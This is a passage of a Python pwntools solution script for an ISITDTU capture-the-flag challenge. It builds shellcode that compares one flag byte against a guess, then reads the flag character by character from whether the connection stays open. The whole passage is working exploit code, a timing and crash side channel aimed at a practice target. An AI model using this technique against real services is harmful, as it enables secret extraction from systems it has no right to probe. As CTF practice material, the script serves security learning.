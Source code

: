 ```python

    # Perform the comparison with our guess
    shellcode += "cmp bl, {0}\n".format(ord(c))

    # Conditionally return if we guessed wrong
    shellcode += "je loop\n"
    shellcode += "ret\n"

    # Sometimes we ended up with newline chars, just ask pwntools to remove them
    shellcode = asm(shellcode)

    # Send it
    r.sendline(shellcode)
    # Try reading
    try:
        r.recvline(timeout=0.5)
    except:
        # Connection closed on us, wrong guess
        r.close()
        return False

    # Connection stayed open, correct guess
    r.close()
    return True

flag = "ISITDTU{"

# Not specifying stop here since we don't know how long the flag is
while True:

    # Guess every character
    for c in string.printable:

        print(f'Trying char: {c}')
        # If we found this char, break and move to the next
        if tryChar(c,len(flag)):
            print("Found char: " + c)
            flag += c
            break

    else:
        # If we hit this, we're probably done reading the flag
        break

# tryChar('q', len(flag))

print("Flag: " + flag)

r.interactive()
```
